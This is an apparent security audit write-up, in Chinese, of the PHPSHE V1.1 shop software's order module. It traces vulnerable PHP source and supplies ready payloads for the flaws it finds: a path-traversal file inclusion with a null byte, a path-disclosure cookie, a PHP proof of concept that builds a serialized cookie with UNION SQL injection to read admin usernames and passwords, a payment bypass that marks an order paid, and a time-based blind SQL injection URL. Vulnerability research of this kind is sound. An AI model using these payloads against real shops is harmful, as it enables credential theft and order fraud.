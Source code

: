 ## **PHPSHE V1.1 （二）**

### **order.php**
<br >
接下來，我們來看看`order`購物車及訂單模塊。
<br >
大致看一下、購物車列表主要以序列化形式緩存在cookie裏面，第一反應就想到能不能有序列化注入？`選擇支付方式`似乎也存在包含漏洞。
<br >
先看看選擇`支付方式`的包含漏洞的

```php
//Line:106

case 'pay':
    ...
    if (isset($_p_pesubmit)) {
        ...
        include("{$pe['path_root']}include/plugin/payway/{$_p_info['order_payway']}/order_pay.php");
```

此處`$_p_info['order_payway']`可控且未經過濾。

### **【Bug 0x04: 任意文件包含漏洞 有限制條件】**
`POST:/index.php?mod=order&act=pay`
<br >
`DATA:info[order_payway]=../../../robots.txt%00?&pesubmit=1`
<br >
再看看，`訂單增加`操作無需登入就可以對資料庫操作。

```php
//Line:65

case 'add':
    $cart_info = cart_info(unserialize($_c_cart_list));
```

跟進`cart_info()`函數

```php
//Line:135

function cart_info($_c_cart_list=array()) {
    ...
    else {
    if (is_array($_c_cart_list)) {
        foreach ($_c_cart_list as $k => $v) {
            $product_rows = $db->pe_select('product', array('product_id'=>$k), '`product_name`, `product_logo`, `product_smoney`, `product_num` as `product_maxnum`');
            $info_list[] = array_merge($v, $product_rows);
```

這個地方、除了可能有sql注入，同時還有一個亮點

`$info_list[] = array_merge($v, $product_rows);`

函數`array_merge()`錯誤的參數也會導致出現謝謝洩漏的。
<br >
我們任意構造一個錯誤的序列化訂單，例如`a:1:{s:0:"";a:1:{s:11:"product_num";N;}}`
<br >
這是通過空購物車的時候，進行**購物車商品更改數量**操作自動生成的一個錯誤的商品信息。
<br >
`/index.php?mod=order&act=cartnum`
<br >
然後再次進行任意一個調用到`cart_info()`函數的操作就會發生錯誤並返回錯誤信息。

### **【Bug 0x05: 信息洩露 爆路徑】**

URL:
```
/index.php?mod=order&act=cartnum
/index.php?mod=order&act=add
/index.php?mod=order&act=cartdel
```
**Cookie**:`cart_list=a:1:{s:0:"";a:1:{s:11:"product_num";N;}}`

```Warning: array_merge(): Argument #2 is not an array in E:\SourceCodes\phpshe1.1\module\index\order.php on line 148```

現在我們繼續審計是否存在注入。

```php
//Line:142

if (is_array($_c_cart_list)) {
    foreach ($_c_cart_list as $k => $v) {
        $product_rows = $db->pe_select('product', array('product_id'=>$k), '`product_name`, `product_logo`, `product_smoney`, `product_num` as `product_maxnum`');
```

`$k`存在注入。<br>
跟進`pe_select()`函數


```php
//Line:135

public function pe_select($table, $where = '', $field = '*')
    {
        //處理條件語句
        $sqlwhere = $this->_dowhere($where);
        return $this->sql_select("select {$field} from `".dbpre."{$table}` {$sqlwhere} limit 1");
```

再跟進`_dowhere()`函數


```php
//Line:181

//處理條件語句
protected function _dowhere($where)
{
    if (is_array($where)) 
    {
        foreach ($where as $k => $v) 
        {
            if (is_array($v)) 
            {
                $where_arr[] = "`{$k}` in('".implode("','", $v)."')";            
            }
            else 
            {
                in_array($k, array('order by', 'group by')) ? ($sqlby = " {$k} {$v}") : ($where_arr[] = "`{$k}` = '{$v}'");
            }
        }
        $sqlwhere = is_array($where_arr) ? 'where '.implode($where_arr, ' and ').$sqlby : $sqlby;
    }
    else 
    {
        $where && $sqlwhere = (stripos(trim($where), 'order by') === 0 or stripos(trim($where), 'group by') === 0) ? "{$where}" : "where 1 {$where}";
    }
    return $sqlwhere;
}
```

來自`$_c_cart_list`的`$k`未經過濾被帶入sql語句中，導致where條件注入。
<br >
這時，我們可以構造一個特殊的序列化購物車訂單，利用union任意查詢資料庫內容。
<br >
PHP_生成POC

```php
<?php
$b["'union select admin_name,2,3,4 from pe_admin -- -"][0] = '1\'';
$b["'union select admin_pw,2,3,4 from pe_admin -- -"][1] = '1\'';
$s = serialize($b);
print_r($s);
?>
```


### **【Bug 0x06: SQL注入 任意查詢】**

URL:`/index.php?mod=order&act=add`

Cookie:
<br>
```a:2:{s:49:"'union select admin_name,2,3,4 from pe_admin -- -";a:1:{i:0;s:2:"v'";}s:47:"'union select admin_pw,2,3,4 from pe_admin -- -";a:1:{i:1;s:2:"v'";}}```

兩個商品名稱處分別顯示管理員用戶名和密碼。
回到**訂單增加**操作。

```php
//Line:73-80

$_p_info['order_productmoney'] = $money['order_productmoney'];
$_p_info['order_wlmoney'] = $money['order_wlmoney'];
$_p_info['order_money'] = $money['order_money'];
$_p_info['order_atime'] = time();
$_p_info['user_id'] = $_s_user_id;
$_p_info['user_name'] = $_s_user_name;
$_p_info['user_address'] = "{$_p_province}{$_p_city}{$_p_info['user_address']}";
if ($order_id = $db->pe_insert('order', $_p_info)) {
```

我們用`print_r()`或者`var_dump()`輸出`$_p_info`

```php
Array
(
    [user_address] => 河南省鄭州市測試
    [user_tname] => 姓名
    [user_phone] => 13012345678
    [user_tel] =>
    [order_text] =>
    [order_productmoney] => 133.0
    [order_wlmoney] => 0.0
    [order_money] => 133.0
    [order_atime] => 1461044204
    [user_id] =>
    [user_name] =>
)
```

這時可以發現`user_tname`和`user_phone`和`user_tel`和`order_text`都沒有經過處理，就代入了sql查詢。
<br >
這裡、我們可以利用update注入了。當然，我們沒有登入、無法查看到訂單詳情。
<br >
同時，我們也可以構造其他的參數例如`order_state`,直接修改訂單狀態。

### **【Bug 0x07: 支付繞過】**

URL:
```
/index.php?mod=order&act=add
```

DATA:
```
....
info[order_state]=paid
```

雖然會返回訂單號錯誤，但確實是成功了。
<br >
在登入情況下，該頁面也存在不少注入漏洞。

```php
//Line:34

case 'cartnum':
    $money['order_productmoney'] = $money['order_wlmoney'] = $money['order_money'] = 0;
    if (pe_login('user')) {
        $result = $db->pe_update('cart', array('user_id'=>$_s_user_id, 'product_id'=>$_g_product_id), array('product_num'=>$_g_product_num));
    }
```

`$_g_product_id`和`$_g_product_num`未經顧慮就帶入了sql更新。
<br >

### **【Bug 0x08: SQL注入 Update注入 AND/OR time-based blind 登入限制】**

URL:

```/index.php?mod=order&act=cartnum&product_id=1&product_num=12' AND (SELECT * FROM (SELECT(SLEEP(5)))YfCN) AND 'RShN'='RShN```